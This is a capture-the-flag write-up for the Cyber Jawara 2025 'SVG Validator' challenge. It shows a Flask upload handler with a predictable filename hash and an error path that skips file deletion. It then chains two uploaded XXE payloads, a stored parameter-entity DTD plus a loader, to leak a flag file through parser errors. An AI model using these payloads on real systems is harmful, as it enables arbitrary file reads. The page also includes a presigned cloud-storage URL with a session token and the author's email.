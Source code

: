 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB46656WCZ4D5%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T095012Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDEaCXVzLXdlc3QtMiJIMEYCIQDUHyAFdkKA5qMZJUe%2BUnDjGR6VJK8N2z9cGoZ0wxXVnAIhAKUDNsqwAuKr8MaLe5f31%2FX8chJHEkTy%2FDSZFRFncAZTKogECOr%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQABoMNjM3NDIzMTgzODA1Igw8b2t1MO21TIaSejcq3AOiFmPhRcQVcL0lkWMzCBImAPCpaF1SZ%2B5Po4%2FjBYqrgP1VKMSW9OQrrL8vM2sjnI5eyHL%2Fe9udCk87sAhCol%2BlDaw1pCLGBwV%2FQOufNAIPBR7eoGbOEYQP2PqrFtDxbTYWEpAAqeoqFPonW1zJfK9Sz1wzxJufwSsBJZ48rbajtl3gH2uQ4oyYv32VULDbQAA8QiyJuEekpZ7KOgrGlqv%2BUQAic8lKSt8iNWBh3s3Y6hUnN92cVSUP0j%2BZxNAzL2zhPOxPo1zvdR0ccMiiCA8T7aKFTtx6ZlOyWELDXiPTCLoTMHj6sfXQr4YA7tDd2j0aX851XV%2BnohKx3IuVvJszg4ixAuTCTIf%2Fv6TManBUV8wq1XAtTv0oQy9YLDOYrdz%2BetrtJUTAnzGpwuEnMSh%2BhG4RaikID6ISzagEGiM%2FvvozeHUoel5Uy5shU0bHNsijlz%2BsfAZB2QSYxapq82SnwzEZu6%2FA5tzQK9ILvVXhb74Rln4%2BdD3UX3ua0aLyWTmuPdv1YdGiwJqppnZJC02jmOADwaB%2B19TW5uAGsb5DEh%2FU63uzM%2BjqdU72tVYg4HSFzYsYynDeYijy8xR3O9YPBwbLEtp%2F%2F%2BGjO2Hs%2F2OEDX2DgIL9H2iihZSNizC48cDBBjqkAdx3SGS7dJfJuE%2FVWar7MyX8SStwsoUDRJMZpFQS9JdXJTqz9HnIC0t0%2F4EVoGEH5uXjoaK8MzCGlvAo8LkSe%2B0DuNyJUpd3LJE3DiYe84XpEnaciHgsxka4WqK5%2BPRDkrS4bQfwiir3kOVo7i4ql9jh0FxwbaEEbou4JRRna2a7EhDFQJ1DoEd3CNDOVUNO0sinCQDJtXXiYZ%2Bmxeus%2BJ9KGZoj\&X-Amz-Signature=d46e5216d56c79f50eb36e013f0448f4a15f0bdacb3d852de1aa55e36217d33b\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)
